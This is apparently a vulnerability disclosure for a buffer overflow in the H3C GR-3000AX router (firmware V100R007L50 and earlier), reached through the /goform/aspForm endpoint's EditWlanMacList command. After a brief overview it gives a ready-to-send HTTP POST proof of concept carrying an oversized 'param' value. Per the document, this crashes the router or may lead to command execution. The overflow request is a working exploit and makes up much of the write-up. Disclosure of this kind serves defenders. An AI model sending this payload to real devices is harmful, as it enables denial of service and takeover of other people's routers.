



# Information


**Vendor of the products:**   New H3C Technologies Co., Ltd.

**Vendor's website:** [新华三 - 融绘数字未来，共享美好生活](https://www.h3c.com/cn/)

**Reported by:** Chen Bo ([2804894416@qq.com](mailto:2804894416@qq.com))

**Affected products:** H3C GR-3000AX

**Affected firmware version:** <=V100R007L50

**Firmware download address:** [download]([H3C SWBRW1A0V100R007L50 软件版本及说明书-新华三集团-H3C](https://www.h3c.com/cn/d_202505/2485140_30005_0.htm))

# Overview

A serious buffer overflow vulnerability was found in the latest version of H3C Mini router H3C GR-3000AX V100R007L50. Through routing/goform/aspForm and correctly controlling the param field, a buffer overflow can be caused, leading to a denial of service attack or even command execution. It is specifically triggered by EditWlanMacList. Other affected components include Edit_List_SSID/UpdateWanParamsMulti and UpdateIpv6Params



# Vulnerability details

Here is the location where the specific function is executed



There is no detection here but direct copying leads to buffer overflow



# POC

```
POST /goform/aspForm HTTP/1.1
Host: 192.168.124.1
Content-Length: 239
Cache-Control: max-age=0
Origin: http://192.168.124.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.124.1/mobile_access_net.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: USERLOGINIDFLAG=; LOGIN_PSD_REM_FLAG=
Connection: close

CMD=EditWlanMacList&param=1;2;3;aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa;bb
```

